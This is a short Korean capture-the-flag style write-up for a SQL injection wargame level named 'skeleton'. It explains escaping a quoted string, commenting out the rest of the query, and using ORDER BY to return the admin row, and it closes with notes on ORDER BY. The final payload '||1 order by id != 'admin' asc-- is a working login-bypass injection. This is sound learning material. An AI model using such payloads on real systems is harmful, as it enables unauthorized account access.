 ## Q10. skeleton _ order by 활용
<img src="/photo/prob_10.PNG" width="100%" height="100%" alt="problem"></img>

### 제한 문자: X <br> 문제 사항: id=admin을 만들어내라.
### 해결책

```
GET값 싱글쿼터에 의해 문자열 취급
=> 싱글쿼터를 이용해 문자열 탈출 
```
```diff
# 현재 쿼리문: where id='guest' and pw=''||1' and 1=0
```
```
but. 1 뒤의 내용 문제 일으킴
=> 주석 처리
```
```diff
# 현재 쿼리문: where id='guest' and pw=''||1-- ' and 1=0
```
```
현재 || 1에 의해서 쿼리문은 참
=> 테이블이 준비됨
=> 준비된 테이블에서 id='admin'만 고르면 됨
=> 데이터 값 정렬해주는 ORDEY BY 이용
=> BY 뒤에 조건(id='admin')을 줌
```
```
해결 쿼리문: where id='guest' and pw=''||1 order by id != 'admin' asc-- ' and 1=0
```
### CERT <br> ?pw='||1 order by id != 'admin' asc--+

### 느낀점
```diff
+ ORDER BY 함수에 대해 배웠다.
+ 기본 구조: ORDER BY column_name(조건) <속성>
+ 속성: ASC( 오름차순 )
+       DESC ( 내림차순 )
+ 조건: id!='특정값' asc : 특정값 최상단 정렬
+       id ='특정값' desc : 특정값 최하단 정렬  
```
